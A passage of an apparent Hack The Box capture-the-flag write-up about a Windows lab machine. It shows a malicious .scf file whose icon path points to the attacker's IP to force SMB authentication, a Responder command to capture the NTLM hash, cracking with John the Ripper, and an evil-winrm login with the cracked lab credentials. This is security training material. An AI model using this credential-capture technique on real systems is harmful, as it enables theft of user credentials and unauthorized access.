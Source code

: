 Gobuster don't tell us anything useful. But manual exploring lead us to an upload feature:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123124549.png' | relative_url }}" text-align="center"/>
</div>

The description message tell us that if we upload a firmware model if will be tested by a operator team. 

Since we are in a Windows Machine, we can try to do a SCF file injection attack. 

It is mentioned that the firmware gets uploaded to a file share and is reviewed manually by the team internally. Since each file is reviewed manually and it is uploaded to an SMB share we could potentially upload a file that, when executed, makes a connection back to our local machine using SMB, thus allowing us to grab an NTLM hash. Since every file is opened for review purposes we can upload a Shell Command File (.scf) with a simple command to grab a single file from our local machine.

The SCF stands for Shell Command File and is a file format that supports a very limited set of Windows Explorer commands, such as opening a Windows Explorer window or showing the Desktop. The thing is that we can make a .scf file that that loads its icon image from an URL and provoke in that way to a SSRF attack through SMB concluding with a gathering of credentials hashs

```scf
[Shell] 
Command=2 
IconFile=\\<LocalIP>\whatever 
[Taskbar] 
Command=ToggleDesktop
```


When we upload this file onto the share the file will try to download his IconFile through a SMB connection to our local machine. We have to remember that, because SMB requires authentication, it will try to autenticate to our computer and with the [Responder](https://github.com/lgandx/Responder) tool we can catch this credentials:

```bash
python3 Responder.py -Pv -I tun0
```

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123172211.png' | relative_url }}" text-align="center"/>
</div>

And then with John The Ripper:

<div style="text-align:center">
	<img src="{{ 'assets/img/HTB/Pasted image 20221123174736.png' | relative_url }}" text-align="center"/>
</div>

And we use this credentials to login with Evil-winrm:

```bash
evil-winrm -i 10.10.11.106 -u tony -p liltony
```
